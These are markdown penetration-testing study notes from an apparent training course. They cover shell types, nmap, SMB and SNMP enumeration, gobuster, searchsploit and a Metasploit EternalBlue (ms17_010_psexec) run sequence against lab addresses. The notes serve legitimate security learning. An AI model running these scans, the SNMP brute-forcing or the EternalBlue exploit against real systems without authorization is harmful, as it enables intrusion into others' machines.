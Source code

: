 ***

### Risk Management Process

- Identify the risk
- Analyze the risk
- Evaluate the risk
- Dealing with the risk
- Monitoring Risk 

### Common Terms

- **Reverse Shell:** Initiates a connection back to a "Listener" on our attack box
- **Bind Shell:** "Binds" to a specific port on the target host and waits for a connection from our attack box.
- **Web Shell:** Runs OS commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e. leveraging a file upload vulnerability and uploading a PHP script to run a single command)

### Basic Tools

- **[Reverse Shell](https://github.com/besimorhino/powercat):** Windows alternative to `netcat` coded in PowerShell called **PowerCat**
- **[Socat](https://linux.die.net/man/1/socat):** It has a few features that `natcat` does not support, like forwarding ports and connecting to serial devices.
	- It can also be used to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat) 
	- [Standalone Binary](https://github.com/andrew-d/static-binaries) of `Socat` can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.

### Service Scanning

- Port 0 is a reserved port and is "Wild Card" port
- Ports 1 - 1023 are reserved for privileged services
- `nmap 10.129.42.254` by default performs a TCP scan
	- `-sC`: nmap scripts will be used to obtain more detailed information
	- `-sV`: Performs a version scan (service protocol, application name, version)
	- `-p-`: Scan all ports
- **Banner Grabbing**
	- `namp -sV --script=banner <target>`
	- `nmap -sV --script=banner -p21 10.10.10.0/24`
	- ``nc -nv 10.129.42.253 21``
- **FTP**
	- `ftp -p 10.129.42.253`
- **SMB**
	- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
	- `nmap -A -p445 10.129.42.253`
	- **Shares**
		- `smbclient -N -L \\\\10.129.42.253`
			- `-N`: Suppress the password prompt
			- `-L`: List the available shares on the remote host
		- `smbclient \\\\10.129.42.253\\users`
		- `smbclient -U bob \\\\10.129.42.253\\users`
- **SNMP**
	- Community strings provide information and statistics about router or device.
	- The manufacturer default community strings of `public` and `private` are often unchanged.
	- `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`
	- `snmpwalk -v 2c -c private 10.129.42.253`
	- [onesixtyone](https://github.com/trailofbits/onesixtyone) can be used to brute force the community string names using a dictionary file of community strings such as the `dict.txt` file.
		- `onesixtyone -c dict.txt 10.129.42.254`

### Web Enumeration

- [ffuf](https://github.com/ffuf/ffuf) and [GoBuster](https://github.com/OJ/gobuster) can be used for directory enumeration
	- `gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
- **DNS Subdomain Enumeration**
	- `git clone https://github.com/danielmiessler/SecLists`
	- `sudo apt install seclists -y`
	- Next add a DNS server such a `1.1.1.1` to the `/etc/resolv.conf`
	- `gobuster dns -d inlanefreight.com -w /usr/share/seclists/Discovery/DNS/namelist.txt`
- We can user `cURL` to retrieve server header information
	- `curl -IL https://www.inlanefreight.com`
- [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- `whatweb <target ip>` can be used to extract the version of web servers, supporting frameworks, and applications.
	- `whatweb --no-errors <target ip>`

### Public Exploits

- The `searchsploit` tool can be used to search for public vulnerabilities/exploits for any application.
	- `sudo apt install exploitdb -y`
	- `searchspolit openssh 7.2` 
	- We can also use the online exploit database to search for vulnerabilities:
		- [Exploit DB](https://www.exploit-db.com/)
		- [Rapid7 DB](https://www.rapid7.com/db/)
		- [Vulnerability Lab](https://www.vulnerability-lab.com/)
	- We can also use `metasploit` to search for exploits and use the exploits against vulnerable targets.
		- `msfconsole`
		- `search exploit eternalblue`
		- `use exploit/windows/smb/ms17_010_psexec`
		- `show options`
		- `set LHOST tun0`
		- `set RHOST 10.10.10.10`
		- `check`: can be used to check if the server is vulnerable
		- `run` or `exploit`

### Types Of Shells

### Privilege Escalation

### Transferring Files

